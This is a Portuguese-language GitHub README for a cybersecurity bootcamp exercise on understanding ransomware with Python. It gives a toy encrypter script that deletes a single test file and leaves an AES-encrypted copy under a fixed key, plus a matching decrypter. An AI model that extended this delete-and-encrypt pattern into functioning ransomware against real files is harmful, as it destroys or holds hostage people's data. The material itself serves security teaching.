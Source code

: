 # projeto-ransomware-dio

Código para o desafio de projeto __Entendendo um Ransomware na Prática com Python__ do Santander Bootcamp Cibersegurança

## Criando os códigos
1. criando arquivo .txt
`nano testeransomware.txt`

2. encrypter.py
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "testeransomware.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave para criptografar
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```   
   
3. decrypter.py
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "testeransomware.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografar o arquivo
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "testeransomware.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```
